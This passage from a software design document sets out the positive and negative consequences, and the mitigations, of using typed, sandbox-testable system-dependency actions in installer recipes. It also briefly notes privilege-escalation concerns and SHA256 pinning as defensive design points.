Certain actions (`group_add`, `service_enable`) enable indirect privilege escalation. See [DESIGN-system-dependency-actions.md - Future Work: Host Execution](DESIGN-system-dependency-actions.md#host-execution) for:

- Group allowlisting (categorizing groups by risk level)
- Tiered consent for different risk levels
- Audit logging requirements

## Consequences

### Positive

- **Complete golden coverage**: All recipes can be sandbox-tested, including those with system dependencies.
- **Consistent filtering**: Platform filtering uses `when` clause with `linux_family` support; PM actions have hardcoded implicit constraints.
- **Typed actions**: Each action has a well-defined schema (from [DESIGN-system-dependency-actions.md](DESIGN-system-dependency-actions.md)).
- **Composability**: Easy to mix action types per platform (download on Linux, brew_install on macOS).
- **Explicit dependencies**: The minimal base container forces recipes to declare all required packages.
- **Documentation generation**: Actions generate human-readable instructions via `Describe()`.
- **Auditable**: No shell commands - every action can be statically analyzed.
- **Content-addressed**: External resources are pinned by SHA256, preventing TOCTOU attacks.

### Negative

- **Verbosity**: Platform-specific steps require separate action entries.
- **Infrastructure**: Requires building and publishing minimal base container images.
- **Action vocabulary**: Complex installations may require multiple actions or new action types.
- **Two-design coordination**: This design depends on the action vocabulary design.

### Mitigations

- **Verbosity**: Recipes are validated by tooling; explicit is better than implicit for platform behavior.
- **Infrastructure**: GitHub Actions can build and publish base images on release.
- **Action vocabulary**: Start with common patterns (apt, brew, dnf); add actions as needed.
- **Two-design coordination**: Clear scope boundaries and cross-references ensure designs stay aligned.
